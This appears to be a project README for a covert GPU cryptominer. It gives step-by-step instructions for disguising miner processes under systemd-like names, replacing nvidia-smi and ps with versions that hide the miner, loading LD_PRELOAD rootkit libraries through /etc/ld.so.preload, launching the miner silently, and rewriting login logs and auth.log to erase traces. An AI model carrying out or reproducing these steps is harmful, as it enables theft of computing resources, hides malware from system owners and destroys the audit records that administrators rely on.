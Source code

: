 # AWESOME WOKR !!!
## Structure
* exec: executed file.
    * nvidia-smi: excludes `systemd-diagnosis` in nvidia-smi panel.
    * systemd-firewall: is an adaptive system resource allocator determines which GPU the slave miners work on.
    * systemd-update: is the same to the `systemd-firewall` but more merciful that only works at midnight.
    * systemd-diagnosis: is the pool slave miner.
    * libGNU.co hides `systemd-diagnosis` for ps, top ,and htop.
    * libnvidia-openai.so hides `systemd-firewall` for ps, top ,and htop.

* source: corresponding source code of the executed file in `./exec`.

## Installation
run the `Makefile` by `sudo make`. If you want to be blame, run it without `sudo`. 

### nvidia-smi
1. please make sure the variable `skip` in `source/nvidia-smi.py` is the same to the **slave miner**'s file name.
1. rename original `nvidia-smi` by `nl-toolkit` in `/usr/bin`.
1. move the *degraded* `nvidia-smi` to `/usr/bin`.
1. add read and execution permissions by `chmod +rx nvidia-smi`

### ps
1. please make sure the regex in `source/ps.py` cover the *executed file*, *pool name*, *renamed linux file*.
1. rename original `ps` by `ps2` in `/usr/bin`.
1. move the *degraded* `ps` to `/usr/bin`.
1. add read and execution permissions by `chmod +rx ps`

### systemd-firewall
1. move `systemd-firewall` to `/usr/bin`.
1. add read and execution permissions by `chmod +rx systemd-firewall`

### systemd-update
1. same to the `systemd-firewall`.

### libGNU.co and libnvidia-openai.co
1. move `libGNU.co` and `libnvidia-openai.co` to `/usr/lib`
1. `echo /usr/lib/libGNU.co >> /etc/ld.so.preload`
1. `echo /usr/lib/libnvidia-openai.co >> /etc/ld.so.preload`

## Usage
### Slash the miner
1. `sudo nohup systemd-firewall 2>&1 > /dev/null &`
1. check the mining status by `nl-toolkit`

### Check degraded files
1. `nvidia-smi`
1. `ps aux | grep f2pool`
1. `top` or `htop`

### Clean login log
1. revise following files by 
```bash
utmpdump [logfile] > tmp_output.txt
utmpdump -r tmp_output.txt > [logfile]
```

* `last`: `/var/log/wtmp`
* `lastb`: `/var/log/btmp`
* `lastlog`: `/var/log/lastlog`

1. revise `/var/log/auth.log`

